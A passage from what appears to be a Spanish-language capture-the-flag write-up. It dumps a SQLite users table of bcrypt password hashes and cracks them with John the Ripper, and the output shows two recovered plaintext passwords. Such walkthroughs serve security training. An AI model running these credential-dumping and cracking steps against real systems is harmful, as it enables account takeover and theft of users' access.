 ```shell
sqlite3 filedb.sqlite
```

Entrando dentro de la interfaz, vamos a listar las tablas.

```mysql
.tables
```

Info:

```
files  users
```

Si vemos que contiene la tabla `users`.

```mysql
select * from users;
```

Info:

```
1|admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC|600|Maria|Oliver|Ottawa
2|eric|$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm|-1|||
3|veronica|$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK|-1|||
4|yuri|$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.|-1|||
5|john|$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6|-1|||
6|ethan|$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC|-1|||
```

Veremos varias credenciales, por lo que vamos a probar a intentar crackearlas de esta forma:

## John (Crackeo)

> hash

```
admin_ef01cab31aa:$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
veronica:$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
john:$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
ethan:$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```

Teniendo nuestro archivo de credenciales `hasheadas` vamos a `crackearlo` de esta forma:

```shell
john --format=bcrypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 1024 to 4096
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
america          (eric)     
mustang          (yuri)
2g 0:00:01:47 0.06% (ETA: 2025-09-27 07:32) 0.01854g/s 98.15p/s 397.9c/s 397.9C/s kasandra..jhoan
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

